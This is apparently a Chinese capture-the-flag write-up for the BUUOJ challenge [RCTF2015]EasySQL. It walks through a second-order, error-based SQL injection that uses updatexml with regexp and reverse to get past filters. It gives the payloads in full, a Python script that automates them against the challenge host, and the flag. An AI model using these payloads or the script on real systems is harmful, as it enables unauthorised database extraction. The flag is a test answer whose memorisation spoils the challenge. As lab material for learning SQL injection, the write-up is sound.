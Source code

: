 # [RCTF2015]EasySQL

[题目地址](https://buuoj.cn/challenges#[RCTF2015]EasySQL)

二次注入+报错注入。

sql注入难就难在找到注入点和绕过滤，构造语句什么的就是烦了一点，慢慢研究总能出来的。进入网站，朴实的注册和登录。有个坑，注册界面邮箱不能有@，虽然正常的邮箱都有@但是这里就是不能有，可是我咋知道，试了好多次就是显示invalid string，怀疑人生。更怀疑人生的是，什么都不填都能注册上……后面看[wp](https://blog.csdn.net/mochu7777777/article/details/105179021)才知道@属于被过滤内容。

这次的sql注入不在注册框，疯狂堆引号等特殊符号都能顺利注册。登录框也没有。登录成功后有个改密码链接，手感极差，提交后也不显示改成功了没有，也不会重定向。不过牺牲手感换来了sql报错信息，在我注册用户名为`a'"`，改密码时什么都不填直接点submit就会收到sql报错。

- You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"a'"" and pwd='d41d8cd98f00b204e9800998ecf8427e'' at line 1

根据报错信息可以分析出用户名的闭合应该是"。这种当时没问题后面出现问题的一般都是[二次注入](https://zhuanlan.zhihu.com/p/39917830)。这种注入发现了就不难利用了，注册时输入sql语句，改密码时带出来数据。利用updatexml进行报错注入。

- username=a"||(updatexml(1,concat(0x3a,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))),1))#

`||`代替被过滤的or，所有查询语句都用括号括起来起到分割作用，因为空格也被过滤了。数据库不用爆了，database()搞定，上面直接爆的表，有article，flag，users表。flag当然不在flag表中，在user中。后面会给出大佬的自动化脚本，这里又有一个不友好的地方是没有注销按钮，每次注册新用户只能清cookie。

- username=a"||(updatexml(1,concat(0x3a,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users'))),1))#

爆出users表中的flag字段`real_flag_1s_her`。本来直接构造类似`select real_flag_1s_her from users`这样的就能爆出来flag了，结果里面有填充的垃圾内容，由于报错注入只能回显有限的字符，截取函数right，left，mid什么的又被过滤了，这flag简单查是出不来了。

我们需要[sql正则](https://www.runoob.com/mysql/mysql-regexp.html)。借助正则构造payload。

- username=a"||(updatexml(1,concat(0x3a,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),1))#

payload在`select real_flag_1s_her from users`的基础上加了个where做约束，`where real_flag_1s_here regexp('^f')`表示选取real_flag_1s_here中以f开头的部分，那不就是flag了吗。这样还不够，因为flag很长，输出不完。但是现在我们就不需要截取函数了，直接用reverse函数倒序输出，让regexp匹配到flag内容后再以倒序的形式输出出来，倒序输出是不会影响到regexp匹配的。

- username=a"||(updatexml(1,concat(0x3a,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')))),1))#

可用大佬的脚本享受自动化的快乐。

```python
import requests

url_reg = 'http://a5530913-7f0c-41f8-badd-093e09e45300.node4.buuoj.cn:81/register.php'
url_log = 'http://a5530913-7f0c-41f8-badd-093e09e45300.node4.buuoj.cn:81/login.php'
url_change = 'http://a5530913-7f0c-41f8-badd-093e09e45300.node4.buuoj.cn:81/changepwd.php'

pre = 'mochu7"'
#逆序闭合
suf = "')))),1))#"

#正序闭合
#suf = "'))),1))#"

s = 'abcdefghijklmnopqrstuvwxyz1234567890'
s = list(s)

r = requests.session()

def register(name):
    data = {
        'username' : name,
        'password' : '123',
        'email' : '123',
    }
    r.post(url=url_reg, data=data)

def login(name):
    data = {
        'username' : name,
        'password' : '123',
    }
    r.post(url=url_log, data=data)
    
def changepwd():
    data = {
        'oldpass' : '',
        'newpass' : '',
    }
    kk = r.post(url=url_change, data=data)
    if 'XPATH' in kk.text:
        print(kk.text)
        print(kk.text[::-1])

for i in s:
    #正序
    #paylaod = pre + "||(updatexml(1,concat(0x3a,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('" + i + suf
    #逆序
    paylaod = pre + "||(updatexml(1,concat(0x3a,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('" + i + suf
    register(paylaod)
    login(paylaod)
    changepwd()


#正序payload
#paylaod = pre + "||(updatexml(1,concat(0x3a,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('" + i + "'))),1))#"
#逆序payload
#paylaod = pre + "||(updatexml(1,concat(0x3a,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('" + i + "')))),1))#"
```

## Flag
> flag{1fc925f1-c3ec-4b1c-b0ba-227046ac4d15}